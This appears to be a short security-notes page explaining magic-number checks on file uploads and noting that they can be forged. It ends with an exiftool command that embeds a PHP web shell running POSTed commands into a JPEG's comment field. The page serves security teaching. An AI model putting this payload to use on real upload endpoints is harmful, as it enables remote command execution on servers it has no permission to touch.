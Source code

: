 # Magic Number Validation

Magic numbers are the most accurate way to determine the contents of a file, although they are by no means impossible to forge. A file's "magic number" is a string of bytes at the beginning of the file's contents that identifies the contents. For example, a PNG file would have these bytes at the beginning of the file: `89 50 4E 47 0D 0A 1A 0A`.

![](../../../.gitbook/assets/magic\_number\_png.png)

Unlike Windows, Unix systems use magic numbers to identify files; however, when it comes to uploading files, it is possible to check the magic number of the uploaded file to make sure it is safe to accept. This is by no means a guaranteed solution, but it is more effective than checking the extension of a file.

### Exiftool

```bash
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```
